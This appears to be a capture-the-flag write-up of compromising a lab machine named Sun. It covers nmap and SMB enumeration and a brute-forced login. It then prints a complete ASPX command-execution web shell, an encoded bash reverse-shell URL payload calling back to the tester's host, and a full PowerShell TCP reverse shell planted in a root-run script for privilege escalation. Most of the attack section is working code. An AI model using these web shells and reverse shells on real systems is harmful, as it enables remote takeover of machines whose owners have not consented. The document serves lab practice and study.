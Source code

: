## FIrst enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Sun Apr 14 08:46:48 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80,139,445,8080 -Pn 172.16.246.131
Nmap scan report for 172.16.246.131
Host is up (0.00074s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http        nginx 1.22.1
|_http-title: Sun
|_http-server-header: nginx/1.22.1
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
8080/tcp open  http        nginx 1.22.1
|_http-title: Sun
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SUN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: -2s
| smb2-time: 
|   date: 2024-04-14T07:47:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 08:47:13 2024 -- 1 IP address (1 host up) scanned in 25.22 seconds
```


## Enumerating SMB 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnyx/Sun]
└─$ smbclient -L 172.16.246.131 -N 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      File Upload Path
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.16.246.131 (for a protocol between NT1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```
checking for anonymous shares available for us, we can see that the share `nobody`.  

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1ec4ebf9-36d2-47a6-be72-1786f14f49a4)

found a username `punt4n0` 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6121381a-0bb4-48aa-9376-48a65067e319)

try to bruteforce the password for the user, 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eea2fea3-fcb6-4e47-b03d-8a39c07cb20c)

found the password `sunday`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/743bf7ac-f167-4d6e-b8c7-89748926f5a8)

using the creds gotten to check if we have share access to the shares in smb. we got read,write access to one of the shares

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c0b95659-f72e-47b7-87fc-56cb072be2f1)

login to download some file and uploaded a file into the share. 

```asp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>

<script runat="server">

protected void Page_Load(object sender, EventArgs e)
{
    string cmd = Request["cmd"];
    
    if (!string.IsNullOrEmpty(cmd))
    {
        ExecuteCommand(cmd);
    }
}

private void ExecuteCommand(string command)
{
    try
    {
        Process proc = new Process();
        proc.StartInfo.FileName = "/bin/bash";
        proc.StartInfo.Arguments = "-c \"" + command + "\"";
        proc.StartInfo.RedirectStandardOutput = true;
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.CreateNoWindow = true;
        proc.Start();
        
        string output = proc.StandardOutput.ReadToEnd();
        Response.Write(output);
        proc.WaitForExit();
    }
    catch (Exception ex)
    {
        Response.Write("Error: " + ex.Message);
    }
}

</script>
```
uploading an aspx webshell gotten from a friend. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0fd4221b-98e5-4f82-83e4-6e0d46b88268)

uploaded it. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1555c4a2-eebd-474c-bfc3-d5c731d1cf23)

navigating to the shell path `http://172.16.246.131:8080/pwned.aspx?cmd=id`, we triggered RCE. 

```
http://172.16.246.131:8080/pwned.aspx?cmd=echo%20%22L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNi4yNDYuMS84MCAwPiYx%22%20|%20base64%20-d%20|%20bash
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e6f41763-6dd4-45f7-9a51-0d65d2e86653)

Using the payload above, we spawned a reverse shell.



## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/57dba1c1-2f33-40bd-b3af-6d45b2e960f7)

running pspy, we can see a powershell script running as root. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a2ec49df-1d98-479f-a594-1196168e6725)

```ps
$LHOST = "172.16.246.1"; $LPORT = 80; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
modified the `service.ps1` script, and wait for 1 min 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a18829d5-c074-47f5-98df-d78a1fa87217)

got a reverse shell as `root`.

